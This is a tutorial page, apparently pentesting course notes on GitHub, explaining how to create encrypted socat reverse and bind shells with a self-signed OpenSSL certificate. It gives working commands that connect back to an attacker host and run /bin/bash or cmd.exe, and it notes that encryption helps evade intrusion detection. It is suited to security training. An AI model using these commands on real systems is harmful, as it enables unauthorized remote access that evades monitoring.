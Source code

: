 <h1>$${\color{red}Socat} \space {\color{yellow}Encrypted} \space {\color{white}Shells}$$</h1>


One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time TCP was used as part of a command, this should be replaced with OPENSSL when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

******

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

##### This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.

<br>

We then need to merge the two created files into a single .pem file:

```
cat shell.key shell.crt > shell.pem
```

<br>

- Now, when we set up our ***reverse shell*** listener, we use:

```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

#### This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

<br>

To connect back, we would use:

```
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

<br>

- The same technique would apply for a ***bind shell***:

Target:

```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

<br>

Attacker:

```
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

> Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/abac5712-3545-4d9e-8832-bcc0d5f29838">
</p>


This technique will also work with the special, Linux-only TTY shell covered in the previous task.

********

<br>

if this content liked you, follow me [Here](https://github.com/4bo4yman) ;)
